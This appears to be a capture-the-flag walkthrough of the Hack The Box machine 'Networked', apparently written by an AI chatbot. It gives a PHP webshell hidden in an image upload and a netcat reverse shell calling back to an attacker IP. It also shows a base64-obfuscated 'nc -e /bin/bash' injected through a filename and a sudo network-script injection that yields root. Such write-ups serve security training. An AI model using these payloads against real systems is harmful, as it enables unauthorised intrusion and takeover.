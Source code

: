 # 🧠 HTB: Networked

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Vector**: Web Upload → Cron Command Injection → Network Script Abuse

---

## 🔍 Recon

### Nmap

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.146
nmap -p 80,22,443 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.146
```

- **Ports open**:
  - [22](SSH) → OpenSSH 7.4
  - [80](HTTP) → Apache 2.4.6 (PHP 5.4.16)
  - 443 → Closed

---

## 🌐 Web Enumeration

### Gobuster / Dirsearch

```bash
dirsearch -u http://10.10.10.146
```

Found:
- `/upload.php`
- `/uploads/`
- `/backup/`
- `/index.php`
- `/backup/backup.tar` → Contains source code

---

## 🔬 Source Code Analysis (from `backup.tar`)

### Key Points from `upload.php` & `lib.php`:
- Only allows `.jpg`, `.png`, `.gif`, `.jpeg`
- Uses `check_file_type()` to validate MIME
- Uses `getnameUpload()` to extract extension after first `.`
- The server treats `something.php.png` as executable PHP due to Apache misconfig:

```apacheconf
AddHandler php5-script .php
```

---

## 💥 Exploitation: Webshell as Apache

### 🐚 Create Malicious File

Append PHP to an image:
```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```

### 🐱 Upload Webshell

Go to:
```
http://10.10.10.146/upload.php
```

### 🐚 Reverse Shell Payload

Start listener:
```bash
nc -lnvp 443
```

Trigger reverse shell:
```
http://10.10.10.146/uploads/10_10_14_5.php.png?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f
```

Shell as:
```bash
id
uid=48(apache) gid=48(apache)
```

---

## 🔼 PrivEsc: Apache → Guly

### 🧹 Exploit `check_attack.php` via Cron

File:
```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Exploit with a filename:
```bash
touch "/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b"
```

(Decoded: `nc -e /bin/bash 10.10.14.7 443`)

### 🧠 Wait for Cron

Listener:
```bash
nc -lnvp 443
```

Shell as:
```bash
id
uid=1000(guly) gid=1000(guly)
```

✅ Grab `user.txt`

---

## 🔼 PrivEsc: Guly → Root

### 🔧 Sudo Permission

```bash
sudo -l
```

Allowed:
```
/usr/local/sbin/changename.sh
```

Script writes a config and calls `ifup`:

```bash
echo "interface PROXY_METHOD:" ; read x
echo $x >> /etc/sysconfig/network-scripts/ifcfg-guly
```

If input includes a space, code after it is executed.

### 💥 Exploit

```bash
sudo /usr/local/sbin/changename.sh
```

Inputs:
```
NAME: test
PROXY_METHOD: a /bin/bash
BROWSER_ONLY: b
BOOTPROTO: c
```

Root shell:
```bash
id
uid=0(root) gid=0(root)
```

✅ Grab `root.txt`

---

## 🔎 Beyond Root: Apache Misconfig

```apacheconf
AddHandler php5-script .php
```

🛑 This causes `.php.*` to be interpreted as PHP.

---

Let me know if you want a downloadable version (PDF/Markdown) or want this organized for a Notion/Obsidian vault ⚡